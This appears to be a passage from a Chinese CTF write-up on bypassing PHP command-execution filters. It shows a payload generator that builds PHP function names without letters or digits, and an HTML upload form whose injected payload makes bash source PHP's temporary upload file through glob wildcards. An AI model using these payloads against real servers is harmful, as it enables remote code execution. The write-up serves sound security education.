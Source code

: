 那也就是说，如果获得了A，就可以得到所有字母

```php
<?php
$_ = []."";   # 得到的是 "Array"
$___ = $_[$__];   # $__没有定义，所以默认为false，也就是0，此时$___ = $_[0] = A
echo $___;
```

```python
up_payload = """
$_ = [].\"\";
$___ = $_[$__];
$__ = $___;
$_ = $___;
$___ = "";
"""
payload = "phpinfo"
payload = payload.upper()
for i in payload:
    num = ord(i) - ord("A")
    for j in range(num):
        up_payload += "$__++;"
    up_payload += "\n$___ .= $__; \n"
    up_payload += "$__ = $_;\n"
print(up_payload)
```

#### 临时文件上传

linux shell知识点：

1. shell下可以利用`.`来执行任意脚本
2. linux文件名支持用`glob`通配符代替

> * `*`代表匹配0个及以上任意字符
> * `?`代表匹配1个任意字符
> * `[^x]`代表这个位置不是字符x

在bash环境下  **​`. file `​**  就是利用bash执行file文件中的命令

当我们发送一个上传文件的POST包时，php会将我们上传的文件保存在临时文件下，默认的文件名是`/tmp/phpXXXXXX`，文件名最后6个字符是随机的大小写字母，这里就可以使用glob通配符代替

用一个html来进行文件上传

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>POST数据包POC</title>
</head>
<body>
<form action="http://9641c16c-5cea-4f08-b8e5-c8e8ffafc904.dynamic.szu.moe/?c=?><?=`.+/??p/p?p??????`;" method="post" enctype="multipart/form-data">
<!--链接是当前打开的题目链接-->
    <label for="file">文件名：</label>
    <input type="file" name="file" id="file"><br>
    <input type="submit" name="submit" value="提交">
</form>
</body>
</html>
```
